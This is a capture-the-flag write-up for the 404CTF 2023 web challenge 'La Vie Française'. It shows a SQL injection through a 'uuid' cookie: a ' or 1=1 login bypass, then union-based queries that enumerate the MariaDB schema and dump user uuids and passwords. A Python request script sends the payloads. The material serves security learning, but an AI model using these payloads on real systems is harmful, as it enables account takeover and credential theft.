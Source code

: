 ```yaml
---
title: CTFs | 404CTF2023 | Web | La Vie Française
author: Stillwolfing
date: 2023-06-05
categories: [CTFs, 404CTF2023, Web]
tags: [CTFs, 404CTF2023, Web]
permalink: /CTFs/404CTF2023/web/la_vie_francaise
---
```


Here is the context:

![context](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/context.png)


By clicking the link, we end on the journal's website:

![home](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/home.png)

Let's try to postulate:

![register](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/register.png)

It's a register page. We register with a random username, "bipboup".

We are redirected to a login page:

![login](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/login.png)

After connecting, we are on our account page:

![account](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/account.png)

We have got a cookie named "uuid" which identify us on the website.

![cookie](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/cookie.png)

I could not decrypt the cookie. I thought that maybe the cookie is stored in the database and the username is retrieved with an sql query that could look like.

```sql
select username from users where uuid = <uuid>;
```

Maybe the way the sql query is made is vulnerable to sql injections.

So I tried this:

I added "' or 1=1-- -" after the my cookie to try to select the first row.

![poc](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/poc.png)

It worked, I'm connected as Jacques Rival.

I created a script to craft my requests:

```python
import requests
from bs4 import BeautifulSoup

url = "https://la-vie-francaise.challenges.404ctf.fr/account"
sep = "0x207c20"

payload = f""

cookies = {'uuid': payload}

r = requests.get(url, cookies=cookies).text
r = r.replace(",", "\n")

if "Connexion" in r:
    print("Courage, tu y es presque !")
else:
    soup = BeautifulSoup(r, 'html.parser')
    print(soup.find("h3").text)
    print("Bravo !")

```

We just have to replace the payload with our payload.

I tried a union based sqli. I tried a request like:

```sql
' UNION SELECT 1-- -
```

I increased the number of row until I reach the good number of row of the query.

with:
```sql
' UNION SELECT 1, 2, 3-- -
```

I get this output:

![union_poc](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_poc.png)

Ok so we need 3 arguments and the first one is displayed on the screen.

Let's try to get the version of the database:

```sql
' UNION SELECT version(), 2, 3-- -
```

![union_version](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_version.png)

The engine is a MariaDB.

Let's get the tables under this database(There are more like system tables and other ones could be created).

```sql
' UNION SELECT group_concat(table_name), 2, 3 from information_schema.tables where table_schema=database()-- -
```

![union_table](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_table.png)

There is a table user. We need to know the columns of the table:

```sql
' UNION SELECT group_concat(column_name), 2, 3 from information_schema.columns where table_name='users'-- -
```

![union_columns](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_columns.png)

Now we can dump the table:

```sql
' UNION SELECT group_concat(uuid, {sep} , username, {sep}, password), 2, 3 from users-- -
```

![union_dump](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_dump.png)

We have madelaineforestier's password and uuid. We can connect using both.

Let's use the uuid:


![madelaine_forestier_account](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/madelaine_forestier_account.png)

On the admin panel:

![flag](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/flag.png)

We've got the flag 🥳 !!

I hope you learned something through this writeup 😉

Oh wait, I almost forgot to flex !

![first_blood](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/first_blood.png)


